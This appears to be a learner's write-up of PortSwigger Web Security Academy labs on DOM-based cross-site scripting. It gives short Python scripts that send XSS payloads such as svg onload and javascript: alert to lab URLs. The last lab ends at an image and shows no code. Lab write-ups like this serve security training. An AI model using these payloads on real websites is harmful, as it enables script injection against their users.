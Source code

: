 # Portswigger

## XSS

### [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

#### Lab: DOM XSS in `document.write` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function_

```python
import requests

url = "https://0a1e0067044d34a8c2a44bb8000700ed.web-security-academy.net"

session = requests.Session()

params = {
    "search" : f'"><svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in `innerHTML` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function._

```python
import requests

url = "https://0a9900f9047f2860c1167170009f00d1.web-security-academy.net/"

session = requests.Session()

params = {
    "search" : f'<svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`._

_To solve this lab, make the "back" link alert `document.cookie`._[\
](https://twitter.com/share?url=https%3a%2f%2fportswigger.net%2fweb-security%2fcross-site-scripting%2fdom-based%2flab-jquery-href-attribute-sink\&text=Lab%3a+DOM+XSS+in+jQuery+anchor+href+attribute+sink+using+location.search+source+%7c+Web+Security+Academy%0A)

```python
import requests

url = "https://0a1300e80334a707c1d5865600da009e.web-security-academy.net"

session = requests.Session()

params = {
    "returnPath" : f'javascript:alert(1)'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in jQuery selector sink using a hashchange event

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property._

_To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser._

![](<.gitbook/assets/image (2).png>)

